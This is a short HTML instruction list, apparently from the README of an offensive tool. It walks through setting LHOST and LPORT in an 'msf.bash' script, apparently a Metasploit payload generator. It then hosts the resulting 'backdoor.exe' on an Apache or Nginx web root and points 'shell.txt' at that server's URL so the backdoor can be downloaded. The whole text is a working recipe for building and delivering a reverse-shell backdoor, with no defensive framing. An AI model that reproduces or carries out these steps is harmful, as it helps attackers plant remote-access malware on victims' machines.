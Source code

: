 

<ol>
        
<h2>Instructions:</h2>

<li>Change `CH_me` with LHOST and LPORT in `msf.bash` script:</li>
        <pre><code>nano msf.bash</code></pre>
        
<li>Run the provided `msf.bash` script:</li>
        <pre><code>./msf.bash</code></pre>

<li>Start your Apache or Nginx web server.</li>
        <p>Choose one of the following commands based on your web server:</p>
        <p>For Apache:</p>
        <pre><code>sudo systemctl start apache2</code></pre>
        <p>For Nginx:</p>
        <pre><code>sudo systemctl start nginx</code></pre>

<li>Upload the file created by `msf.bash` to your web server's root directory (usually `/var/www/html`). You can use tools like `mv` to move the file:</li>
        <pre><code>mv backdoor.exe /var/www/html/</code></pre>

 <li>Open `shell.txt` :</li>
        <pre><code>sudo nano shell.txt</code></pre>

 <li>Edit the `Your_Web_Server_Ip` in `shell.txt` with your Apache or Nginx server's IP address.</li>
        <p>Replace `Your_Web_Server_Ip` with the IP address of your server, e.g.,</p>
        <pre><code>http://Your_Web_Server_Ip/backdoor.exe</code></pre>
</ol>
